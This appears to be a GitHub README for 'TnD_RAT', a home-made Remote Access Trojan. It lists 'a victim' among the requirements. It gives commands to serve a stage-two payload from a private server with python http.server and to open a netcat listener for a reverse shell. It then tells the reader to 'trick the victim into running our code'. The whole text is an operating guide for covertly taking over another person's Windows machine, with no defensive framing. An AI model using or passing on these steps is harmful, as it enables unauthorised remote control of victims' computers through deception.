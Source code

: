 # TnD_RAT
TnD_RAT is a basic Remote Access Trojan that I made from scratch. I've tested to obtain a reverse shell on a Windows machine using it.

## Requirements
* A virtual private server.
* A terminal to run ssh (preferably LINUX).
* A victim.
* My RAT code. 😉😉

## Usage
* Start the server.
* Connect to the server using the RSA id.
* Navigate to the directory where the RSA id is stored.
* Then run the following command to ssh into the server.
```bash 
  ssh -i id_rsa <username>@IP_Address
```
* After connecting to the server, start a python server in the folder containing stage2 payload.
```bash 
python3 -m http.server
```
* Open another terminal.
* SSH into the server again using this terminal by running the above ssh command.
* Set up a listener by using the following command.
```bash 
nc -nlvp <PORT NUMBER>
```
* Now, trick the victim into running our code on his device. (Make sure that the victim is connected to the internet.)

* Woila!!!  You got a reverse shell into the victim's device.
